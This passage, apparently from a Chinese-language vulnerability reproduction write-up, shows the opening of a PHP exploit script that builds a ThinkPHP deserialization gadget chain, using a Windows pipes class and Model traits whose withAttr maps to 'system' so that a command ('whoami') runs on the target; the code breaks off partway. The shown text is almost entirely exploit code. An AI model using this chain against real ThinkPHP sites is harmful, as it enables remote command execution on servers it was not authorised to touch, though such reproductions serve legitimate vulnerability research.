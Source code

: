 [![](assets/1701606544-271c0dc0fde43915d86eb8e53d6d5d8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122173718-ba918310-891a-1.png)

## 漏洞复现：

```bash
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
```